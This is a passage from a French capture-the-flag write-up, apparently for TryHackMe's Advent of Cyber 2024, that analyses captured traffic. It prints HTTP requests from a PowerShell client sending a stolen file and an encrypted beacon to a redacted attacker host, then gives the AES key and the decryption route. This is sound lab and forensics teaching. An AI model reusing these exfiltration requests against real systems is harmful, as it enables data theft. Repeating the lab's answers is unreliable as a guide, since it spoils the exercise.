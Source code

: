 ```http
POST /exfiltrate HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1490
Content-Type: multipart/form-data; boundary=f5964f77-daf1-4853-aacb-df4754eaacaf
Host: [...expurgé...]:8080
Content-Length: 300
Connection: Keep-Alive

--f5964f77-daf1-4853-aacb-df4754eaacaf
Content-Disposition: form-data; name="file"; filename="[...expurgé...].txt"
Content-Type: application/octet-stream

AES ECB is your chance to decrypt the encrypted beacon with the key: 1234567890abcdef1234567890abcdef
--f5964f77-daf1-4853-aacb-df4754eaacaf--

HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.8.10
Date: Thu, 17 Oct 2024 09:47:04 GMT

Data received
```

Le paquet {% include dictionary.html word="HTTP" %} **488** (`POST /beacon`) nous permet d'obtenir le contenu chiffré du fichier critique ayant été exfiltré.

```http
POST /beacon HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1490
Content-Type: text/plain
Host: [...expurgé...]:8080
Content-Length: 77
Connection: Keep-Alive

Encrypted: 8724[...expurgé...]3249 (The exfiltrated file has a clue)
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.8.10
Date: Thu, 17 Oct 2024 09:47:04 GMT

Beacon acknowledged
```

Le chiffrement AES-ECB étant reversible, il est possible de déchiffrer les informations qui ont été récupérées par Mayor Malware grâce au site [CyberChef](https://gchq.github.io/CyberChef/)

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-20_beacon.png" caption="Informations déchiffrées" %}

## Jour 21 : *HELP ME...I'm REVERSE ENGINEERING*

![Reverse engineering](https://img.shields.io/badge/Reverse%20engineering-314267?logo=tryhackme)

![Jour 21](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732165566749.png)
